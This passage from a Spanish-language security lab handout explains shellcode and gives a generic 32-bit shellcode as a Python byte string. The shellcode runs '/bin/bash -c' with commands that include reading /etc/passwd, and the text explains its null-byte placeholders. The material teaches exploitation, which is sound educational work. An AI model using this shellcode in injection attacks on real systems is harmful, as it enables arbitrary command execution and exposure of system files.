 
Un Shellcode es una porción de código comúnmente escrito en lenguaje ensamblador y que es típicamente usado para realizar ataques de inyección de código a la hora de explotar determinadas vulnerabilidades.
En este laboratorio, sólo ofrecemos un binario genérico de un shellcode, dado que el funcionamiento de un shellcode está fuera del alcance de este laborattorio, no nos adentraremos en los detalles de su mecánica.
Si está interesado en saber como funciona un shellcode y quiere escribir un shellcode desde cero, puede consultar nuestro laboratorio \textit{Shellcode Lab}.
A continuación se muestra nuestro shellcode genérico de 32-bits:

\begin{lstlisting}[language=python]
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"                                                     (*@\ding{202}@*)
   "-c*"                                                            (*@\ding{203}@*)
   "/bin/ls -l; echo Hello; /bin/tail -n 2 /etc/passwd        *"    (*@\ding{204}@*)
   # The * in this line serves as the position marker         *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
\end{lstlisting}

Este shellcode ejecuta una shell \texttt{"/bin/bash"} (Línea ) con dos argumentos de entrada que son invocados usando el parámetro \texttt{"-c"} (Línea ) y su valor que en este caso es una cadena con comandos (Línea ). Esto quiere decir que la shell correrá una determinada cantidad de comandos como segundo argumento.
El \texttt{*} al final de la cadena es un placeholder y será reemplazado por el byte \texttt{0x00} durante la ejecución del shellcode.
Esto se debe a que cada cadena necesita terminar con un cero, pero dado que en un shellcode no podemos poner ceros, ponemos un placeholder al final de cada una de ellas, y a la hora de su ejecución reemplazaremos ese placeholder por un cero.

